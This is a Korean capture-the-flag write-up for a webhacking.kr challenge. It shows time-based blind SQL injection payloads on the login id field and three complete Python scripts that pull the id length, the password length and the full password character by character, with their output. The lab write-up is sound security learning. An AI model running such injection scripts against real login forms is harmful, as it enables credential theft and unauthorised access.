 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

***


# **Description**

![](images/2022-01-03-14-31-14.png)


# **Write-Up**

view-source도 없다. 단서를 직접 찾아야 한다. 먼저 id에 ' or sleep(2) -- 와 pw에 123을 넣으면 SQLi가 된다는 것을 확인할 수 있다. (pw도 마찬가지)

![](images/2022-01-03-14-31-35.png)

id나 pw에 select라는 문자열이 들어가면 필터링된다.

![](images/2022-01-03-14-31-40.png)

또한, id나 pw 중 하나라도 값이 없다면 그냥 새로고침되는 듯 하다.

![](images/2022-01-03-14-31-44.png)

id가 guest, pw가 guest로 유추해서 시도해보았는데 login success라고 나온다.

![](images/2022-01-03-14-31-48.png)

다행이 sleep이 걸리는 것으로 보아 쓰기 편한건 필터링 되지 않는 듯하다.

    id : ' or IF(SUBSTR(id, 1, 1)='g', sleep(2), sleep(1)) -- 

![](images/2022-01-03-14-31-58.png)

패스워드 길이를 알아보자.

```python
import urllib.request
import time

for i in range(1, 50):
    id      = urllib.parse.quote('\' or IF(LENGTH(pw)={}, sleep(2), sleep(0)) -- '.format(i))
    pw      = '123'
    url     = 'https://webhacking.kr/challenge/bonus-1/index.php?id='+id+'&pw='+pw
    header  = {'Cookie':'PHPSESSID=l7ql6t9himbquio8gdh5s61f22'}
    request = urllib.request.Request(url, headers=header)
    s_time  = time.time()
    response= urllib.request.urlopen(request)
    result  = response.read().decode()
    e_time  = time.time()
    delay   = round(e_time - s_time)
    if delay >= 2: print('password length : {}'.format(i))

[Output]
password length : 5
password length : 36
```

50까지의 길이를 가진 패스워드는 2개가 나오는데 5자리 수는 아무래도 guest인것 같고, 36자리 수가 알아내야 하는 패스워드임을 유추할 수 있다.

다음으로 아이디 길이를 뽑아보자.

```python
import urllib.request
import time

for i in range(1, 50):
    id      = urllib.parse.quote('\' or IF(LENGTH(id)={}, sleep(2), sleep(0)) -- '.format(i))
    pw      = '123'
    url     = 'https://webhacking.kr/challenge/bonus-1/index.php?id='+id+'&pw='+pw
    header  = {'Cookie':'PHPSESSID=l7ql6t9himbquio8gdh5s61f22'}
    request = urllib.request.Request(url, headers=header)
    s_time  = time.time()
    response= urllib.request.urlopen(request)
    result  = response.read().decode()
    e_time  = time.time()
    delay   = round(e_time - s_time)
    if delay >= 2: print('id lengthdk : {}'.format(i))

[Output]
id length : 5
```

유추해봤을때, admin, guest일 것같다. 패스워드를 찾아낸 뒤, admin으로 로그인이 안되면 id도 찾는 식으로 가본다. 먼저 패스워드를 알아내자.

```python
import urllib.request
import string
import time

password  = ''
for i in range(1, 37):
    for c in string.printable.strip():
        id      = urllib.parse.quote('\' or IF(SUBSTR(pw, {}, 1)=\'{}\' and LENGTH(pw)=36, sleep(2), sleep(0)) -- '.format(i, c))
        pw      = '123'
        url     = 'https://webhacking.kr/challenge/bonus-1/index.php?id='+id+'&pw='+pw
        header  = {'Cookie':'PHPSESSID=l7ql6t9himbquio8gdh5s61f22'}
        request = urllib.request.Request(url, headers=header)
        s_time  = time.time()
        response= urllib.request.urlopen(request)
        result  = response.read().decode()
        e_time  = time.time()
        delay   = round(e_time - s_time)
        if delay >= 2:
            password  += c
            break
print('password : {}'.format(password))

[Output]
password : there_is_no_rest_for_the_white_angel
```

id를 admin으로 넣고 찾은 pw를 넣으면 점수를 획득할 수 있다.

![](images/2022-01-03-14-32-20.png)